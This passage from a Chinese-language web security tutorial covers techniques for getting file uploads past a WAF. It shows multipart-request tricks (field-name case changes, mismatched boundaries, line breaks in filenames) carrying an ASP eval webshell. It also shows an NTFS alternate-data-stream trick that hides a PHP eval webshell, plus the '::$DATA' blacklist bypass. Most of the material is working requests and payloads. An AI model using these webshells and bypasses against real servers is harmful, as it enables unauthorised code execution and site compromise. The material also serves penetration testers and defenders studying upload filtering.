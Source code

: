 ```
boundary=空格—————————4714631421141173021852555099
```

9.修改Content-Disposition字段值的大小写

```
Content-Disposition: form-data; nAme="image";
```

10.Boundary边界不一致
每次文件上传时的Boundary边界都是一致的：

```
Content-Type: multipart/form-data; boundary=---------------------------4714631421141173021852555099后面随便添加一些值
Content-Length: 253
```

```
-----------------------------4714631421141173021852555099
Content-Disposition: form-data; name="file1"; filename="shell.asp"
Content-Type: application/octet-stream
<%eval request("a")%>
-----------------------------4714631421141173021852555099--
```

但如果容器在处理的过程中并没有严格要求一致的话可能会导致一个问题，两段Boundary不一致使得waf认为这段数据是无意义的，可是容器并没有那么严谨，会导致上传成功。

11.文件名处回车

```
Content-Disposition: form-data; name="file1"; filename=

"shell.asp"
```

12.利用NTFS ADS特性
ADS是NTFS磁盘格式的一个特性，用于NTFS交换数据流。在上传文件时，如果waf对请求正文的filename匹配不当的话可能会导致绕过。

在webshell中的使用，在服务器上echo一个数据流文件到正常网页上。比如

```
echo ^<?php eval($_POST[cmd])?^ >> index.php:hidden.txt  
```

index网页会正常显示，就是会多了一个流文件，我们上传一个正常的php文件，文件包含内容是

```
<pre name="code" class="html"><?php include('index.php:hidden.txt')?>  
```

一句话便被包含进来了，达到了隐蔽的效果。

绕过黑名单验证

在测试中我们发现，如果上传的文件名字为：test.php::$DATA，会在服务器上生成一个test.php的文件，其中内容和所上传文件内容相同，并被解析。假设我们需要上传的文件内容为：

```
<?php phpinfo();?>
```
